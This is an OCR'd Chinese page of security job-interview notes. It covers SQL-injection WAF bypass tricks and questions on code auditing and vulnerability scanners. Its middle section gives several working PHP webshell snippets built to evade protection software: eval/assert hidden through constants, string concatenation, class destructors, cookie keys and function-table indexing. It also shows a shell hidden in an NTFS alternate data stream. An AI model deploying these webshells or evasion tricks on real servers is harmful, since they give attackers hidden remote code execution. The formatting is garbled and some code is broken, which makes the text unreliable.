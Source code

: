 1. `1.我不知道他说的odb注入是不是order by注入`
[https://www.cnblogs.com/1ink/p/15107674.html](https://www.cnblogs.com/1ink/p/15107674.html)
1. `2.`1. `***绕sql的常见手法:wz`1. `参数污染`1. `内联注释`1. `大小写绕过 （很老的WAF才有用）`1. `替换绕过 （很老的WAF才有用）【和上传文件那个pphphp一样】`1. `特殊符号绕过 （%0a换行）```1. `编码绕过 （比如会多次解码的东西，例如我们DOM XSS绕狗那个）`1. `等价替换 （利用其它函数替代）[union #%0aselect 拦截][union all #%0aselect 不拦截]`1. `容器特性（例如Apace的Hpp,或者是IIS的%分割）`1. `白名单（管理员权限或者是127.0.0.1本地访问不拦截）`1. `缓存区溢出 （数据太多了，超出了WAF检测的范围）`
---

1. `2.`1. `***绕防护软件（比如D盾之类的）的常见手法:wz`1. `通过常量定义：`1. `&lt;?php define("a","$_GET[1]");eval(a);`1. `------`1. `通过字符串拼接 + 双美元符号： `1. `&lt;?php `1. `$a='ass'; `1. `$b='ert';`1. `$funcName=$a.$b;`1. `$x='funcName';`1. `$$x($_REQUEST[1]); # 用不了，就加个@符号`1. `------`1. `通过函数定义强行分割：`1. `&lt;?php`1. `function a($a){`1. `return $a;}`1. `eval(a($_REQUEST)[1]);?&gt;`1. `------`1. `通过类定义，然后传参强行分割:`1. `&lt;?php `1. `class User`1. `{`1. `public $name = '';`1. `function __destruct(){`1. `eval("$this-&gt;name");`1. `}`1. `}`1. `$user = new User;`1. `$user-&gt;name = ''.$_REQUEST[1];`1. `?&gt;`1. `------`1. `多方式传参免杀：`1. `&lt;?php`1. `$COOKIE = $_COOKIE;`1. `foreach($COOKIE as $key =&gt; $value){`1. `if($key=='assert'){`1. `$key($_POST['s'];)`1. `}`1. `}`1. `?&gt;`1. `&lt;?php`1. `$a=get_defined_functions();`1. `$a['internal'][841]($_GET['a']);`1. `------`1. `拿到shell之后藏shell的妙招：ntfs文件流`1. `&lt;?php include('/:123.txt')?&gt; + echo "&lt;?php eval($_REQUEST[a])?&gt;" &gt;&gt; /:123.txt `1. `------`1. `通过连接云主机数据库:`1. `绕过市面上所有WAF(终极手法)`1. `&lt;?php`1. `eval(mysqli_fetch_assoc(mysqli_query(mysqli_connect('127.0.0.1','root','root','maoshe'),'select * from info'))['info']);`
---

1. `3.绕防护软件，还是可以绕的。`1. `如果问到防护软件/安全软件之类的，就要问一下是不是D盾之类的防护软件，是的话，就对着上面读啦。`
---


##### 第九个问题（代码审计）
1. `hr：你白盒审计的流程是怎么样的`1. `I：xxx`
---


[网络安全面试必问_网络安全面试常见问题-CSDN博客](https://blog.csdn.net/qq_41755666/article/details/123834539)

---


##### 第十个问题（漏扫工具）
1. `hr：那你有没有用过漏扫工具，比如AWVS，Nessus之类的`1. `I：xxx`1. `hr：嗯。。。主要是你有没有用过呢，你知道归知道嘛，就你知道该怎么配置吗，该怎么用嘛，然后它扫出来大概有哪些结果，该怎么去复现这些。`1. `I：xxx`1. `hr：比如说绿盟，它漏扫它是有很多配置文件的，让你扫1到6535，你知道在哪配吗`1. `I：xxx`1. `hr：或者是AWVS，AWVS可以设置扫描时候cookie登入，这个你知道该怎么配置吗，有用过吗`1. `I：xxx`
---

1. `Nessus的`
[https://www.iculture.cc/software/pig=25546](https://www.iculture.cc/software/pig=25546)

---

1. `AWVS的话，私信我吧。我建议弄个win10`1. `这个视频说了怎么装AWVS的`
[nessus_awvs_菜刀_蚁剑_哥斯拉_冰蝎安装使用_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1VZ4y1i7Lg/?spm_id_from=333.337.search-card.all.click&amp;vd_source=e407327fca9aceb08a32312b91d1913b)

---

1. `我是看这个装win10的`
[【VMware虚拟机】安装Win10系统,附安装包秘钥/系统镜像/激活工具_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1W841147At/?spm_id_from=333.337.search-card.all.click&amp;vd_source=e407327fca9aceb08a32312b91d1913b)

---